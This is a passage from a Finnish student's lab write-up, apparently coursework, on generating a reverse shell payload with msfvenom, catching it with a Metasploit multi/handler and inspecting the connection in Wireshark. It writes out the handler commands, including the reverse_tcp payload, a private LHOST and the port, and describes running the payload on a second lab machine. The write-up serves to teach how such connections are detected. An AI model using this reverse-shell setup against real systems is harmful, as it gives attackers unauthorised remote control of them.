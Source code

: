 

## a) Snif Venom! Näytä esimerkki yhteydestä: reverse shell msfvenom:lla tehdystä binääristä -> metasploit multi/handler. Tarkastele yhteysttä snifferillä, kuten Wireshark. Mitä havaitset? Mistä ominaisuuksista yhteyden voi tunnistaa? Millä muutoksilla tunnistamista voi vaikeuttaa?

Tässä lähdin heti liikkeelle luomalla payloadin. Luotiin täysin samalla tavalla kun viime viikolla opittiin. Tässä tarkensin `-p` payloadin, `-f` formaatin, tässä kyseessä oli linux kohde niin valitisin `elf` tiedosto tyypin ja lopuksi `-o` määritti tiedosto nimen.

![alt text](assets/TT25/TT25-006/image.png)

Sitten piti siirtää tämä tidosto toiselle tietokoneelle. Avasin toiselle tietokoneelle ssh serverin jotta voisin käyttää `scp` komentoa. Sitten ku se oli auki siirsin tiedoston.

![alt text](assets/TT25/TT25-006/image1.png)

Tämän jälkeen tein kuuntelijan msfconsolessa. Käytännössä samat komennot ku viime viikolla.

```sh
use exploit/multi/handler
set payload linux/x64/shell/reverse_tcp
set LHOST 192.168.67.129
set LPORT 3440
run
```

Sitten kun olin saanut kuuntelijan käyntiin, käynnistin Wiresharkin. Kun Wireshark kuunteli oikeaa verkkoa, ajoin payloadin kohde koneella ja Wireshark alkoi laulamaan. Yhteys muodostui, sain shellin aikaseksi. Sitten analysoin vain liikennettä, mitä tapahtui kohde koneen ja hyökkäys koneen välillä.

![alt text](assets/TT25/TT25-006/image2.png)

Kuvassa on heti muutamia huomioita, mistä tunnistaa, että yhteys muodostui. Toisella rivillä oleva `[SYN, ACK]` kertoo meille että yhteys muodostui kahden laitteen välillä (`3-way handshake`).
